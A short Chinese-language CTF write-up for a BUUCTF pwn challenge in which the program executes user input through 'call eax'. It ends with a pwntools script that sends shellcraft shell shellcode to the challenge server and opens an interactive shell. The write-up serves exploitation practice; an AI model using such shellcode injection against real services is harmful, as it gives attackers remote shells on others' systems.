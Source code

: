 ### Call eax 注入

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67da838688c538a9b5c0fca4.png)

gdb 中正常 run 程序结果报错

![](https://pic1.imgdb.cn/item/67da83ca88c538a9b5c0fcb0.png)

IDA 中无法解析 main() 函数，只能看汇编代码

代码打印了 `"Thanks……"` 后报错，所以往这后面看发现 `call eax` 当作函数执行了

![](https://pic1.imgdb.cn/item/67da84ac88c538a9b5c0fd01.png)

去 vuln 中查看发现 `[ebp+var_A0]` 是用户输入的地址

![](https://pic1.imgdb.cn/item/67da857e88c538a9b5c0fd58.png)

如果我们在这里直接注入 shellcode 的话后面 call 调用会直接执行，构造 payload

```python
from pwn import *

p = remote('node5.buuoj.cn', 26750)

payload = asm(shellcraft.sh())

p.sendline(payload)
p.interactive()
```

